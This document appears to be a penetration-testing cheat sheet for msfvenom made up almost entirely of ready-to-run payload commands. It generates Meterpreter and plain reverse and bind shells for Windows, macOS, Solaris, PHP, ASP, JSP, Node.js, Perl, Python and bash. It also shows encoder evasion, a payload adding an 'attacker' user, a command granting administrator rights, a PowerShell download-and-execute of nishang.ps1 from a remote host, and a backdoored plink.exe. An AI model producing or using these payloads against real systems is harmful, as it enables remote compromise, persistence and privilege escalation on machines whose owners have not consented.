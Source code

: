 # MSFVenom

## Usage
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

## Commands
### Payloads
msfvenom -l payloads 

### Encoders
msfvenom -l encoders 

### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID

## Shells

### Reverse 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe

## Payloads

### Add user
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
